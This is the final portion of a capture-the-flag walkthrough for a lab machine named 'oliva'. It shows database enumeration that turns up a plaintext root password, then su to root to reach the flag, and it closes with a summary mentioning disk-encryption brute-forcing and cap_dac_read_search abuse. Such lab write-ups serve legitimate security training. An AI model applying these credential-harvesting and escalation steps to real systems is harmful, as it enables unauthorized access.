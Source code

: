 ```bash

Database changed
MariaDB [easy]> show tables;
+----------------+
| Tables_in_easy |
+----------------+
| logging        |
+----------------+
1 row in set (0,000 sec)

MariaDB [easy]> select * from logging;
+--------+------+--------------+
| id_log | uzer | pazz         |
+--------+------+--------------+
|      1 | root | OhItwasEasy! |
+--------+------+--------------+
1 row in set (0,017 sec)
```
From our database enumeration, we see a table containing the password of the root user. We can use this password to log in as the root user and read the second flag on the system.
```bash
oliva@oliva:~$ su root
Contraseña: 
root@oliva:/home/oliva# ls /root/
rutflag.txt
root@oliva:/home/oliva# 
```
## Conclusion
Congratulations! In this walkthrough, you have learned how to brute force encrypted disk and how to exploit the cap_dac_read_search capability in Linux environments. This machine was designed to show how the use of weak passwords for file encryption may seriously impact the security posture of an organisation. Thank you for following up on this walkthrough.
